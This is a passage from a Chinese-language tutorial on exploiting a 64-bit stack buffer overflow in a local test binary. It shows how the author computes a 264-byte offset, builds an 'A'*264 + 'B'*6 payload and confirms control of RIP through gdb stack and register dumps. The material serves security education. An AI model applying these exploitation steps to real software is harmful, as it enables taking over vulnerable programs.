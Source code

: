```
(gdb) stepi 
Program terminated with signal SIGSEGV, Segmentation fault. 
The program no longer exists. 

```

好了程序就这样结束了我们没能控制 RIP 为什么因为我们覆盖了太多位记得最大的地址是 0x00007fffffffffff 吧而我们尝试用 0x4141414141414141 去溢出了。

## 0x04 控制 RIP

* * *

我们发现了个小问题不过只要是问题总有办法解决的我们可以用个小一点的缓冲区去溢出这样指向 rsp 的地址就会像 0x0000414141414141 一样了。 通过简单的数学运算就可以很轻松地算出我们缓冲区的大小。我们知道缓冲区开始于 0x7fffffffdc90。Leave 指令之后 rsp 将指向 0x7fffffffdd98。

```
0x7fffffffdd98 - 0x7fffffffdc90 = 0x108 -> 十进制的 264 
```

知道了这些我们可以把溢出载荷修改成这样

```
"A" * 264 + "B" * 6 
```

rsp 指向的地址应该像 0x0000424242424242 一样正常了。那样就能控制 RIP。

```
$ gdb -tui bof 
(gdb) set disassembly-flavor intel 
(gdb) layout asm 
(gdb) layout regs 
(gdb) break main 
(gdb) run $(python -c 'print "A" * 264 + "B" * 6') 

```

这次我们直接看调用 leave 指令后的状况。 这是 leave 指令执行后的栈

```
(gdb) x/20xg $rsp 
0x7fffffffddb8: 0x0000424242424242 0x0000000000000000 
0x7fffffffddc8: 0x00007fffffffde98 0x0000000200000000 
0x7fffffffddd8: 0x000000000040060d 0x0000000000000000 
0x7fffffffdde8: 0x2a283aca5f708a47 0x0000000000400520 
0x7fffffffddf8: 0x00007fffffffde90 0x0000000000000000 
0x7fffffffde08: 0x0000000000000000 0xd5d7c535e4f08a47 
0x7fffffffde18: 0xd5d7d58ce38a8a47 0x0000000000000000 
0x7fffffffde28: 0x0000000000000000 0x0000000000000000 
0x7fffffffde38: 0x0000000000400690 0x00007fffffffde98 
0x7fffffffde48: 0x0000000000000002 0x0000000000000000 

```

这是 leave 指令执行后寄存器的值

```
(gdb) i r 
rax     0x0     0 
rbx     0x0     0 
rcx     0xffffffffffffffff  -1 
rdx     0x7ffff7dd59e0 140737351866848 
rsi     0x7ffff7ff7000 140737354100736 
rdi     0x1     1 
rbp     0x4141414141414141 0x4141414141414141 
rsp     0x7fffffffddb8  0x7fffffffddb8 
r8      0x4141414141414141 4702111234474983745 
r9      0x4141414141414141 4702111234474983745 
r10     0x4141414141414141 4702111234474983745 
```